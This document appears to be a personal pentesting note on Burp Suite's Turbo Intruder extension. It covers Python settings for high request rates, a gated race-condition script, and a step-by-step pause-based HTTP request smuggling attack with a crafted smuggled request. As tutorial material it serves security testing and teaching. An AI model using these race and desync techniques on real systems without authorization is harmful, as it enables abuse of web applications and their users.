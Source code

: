 # Turbo Intruder
The BurpSuite extension to be able to do more intruder stuff.

It uses python. And the user can define the algorithm of two functions.
```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=1,
                           pipeline=False
                           )
```
and 
```python
def handleResponse(req, interesting):
    table.add(req)
```

These functions are kinda straightforward. The first one queues and sends the requests, and the second one handles the responses it gets.

### Speed
The speed of these basic settings is 8 requests/second:
```python
    concurrentConnections=1,
    requestsPerConnection=1,
    pipeline=False
```

By changing concurrentConnections to 25, the speed becomes 39 requests/second:
```python
    concurrentConnections=25,
    requestsPerConnection=1,
    pipeline=False
```

By changing requestsPerConnection to 100, the speed becomes 869 requests/second:
```python
    concurrentConnections=25,
    requestsPerConnection=100,
    pipeline=False
```

By setting pipelining to true, the speed becomes 1785 requests/second:
```python
    concurrentConnections=25,
    requestsPerConnection=100,
    pipeline=True
```

## Race conditions | Parallel requests
For race conditions where you have to send multiple packets at the same time, while you can brute force through some (word)list while sending them. It can probably only hold like 20~30 requests at the same time, so any more will probably not work. 

```python
def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    # the 'gate' argument withholds part of each request until openGate is invoked
    # if you see a negative timestamp, the server responded before the request was complete
    for word in wordlists.clipboard:
        engine.queue(target.req, word, gate='race1')

    # once every 'race1' tagged request has been queued
    # invoke engine.openGate() to send them in sync
    engine.openGate('race1')


def handleResponse(req, interesting):
    table.add(req)
```

## Pause Based Desync Attack
Sometimes, a pause withing the sending of the request can cause a desync attack vector. Take a look [here](../web/smuggling.md#desync--pause-based).

1. In Burp Turbo Intruder, create a request like this:
```
POST /example HTTP/1.1
Host: vulnerable-website.com
Connection: keep-alive
Content-Length: 34

GET /hopefully404 HTTP/1.1
Foo: x
```

2. In the python editor panel, adjust the request engine configuration to set these options:
```python
concurrentConnections=1,
requestsPerConnection=100,
pipeline=False,
engine=Engine.THREADED
```

3. Add extra arguments to the `engine.queue()` function something like this:
```python
engine.queue(target.req, pauseMarker=['\r\n\r\n'], pauseTime=60000) # Adjust for needs
```

4. Just also queue a normal follow-up request as normal:
```python
followUp = 'GET / HTTP/1.1\r\nHost: vulnerable-website.com\r\n\r\n'
engine.queue(followUp)
```

After the delay you specified in step 3, you should get two responses. If the latter response matches what you expected from the smuggled prefix, this strongly suggests that the desync was succesful.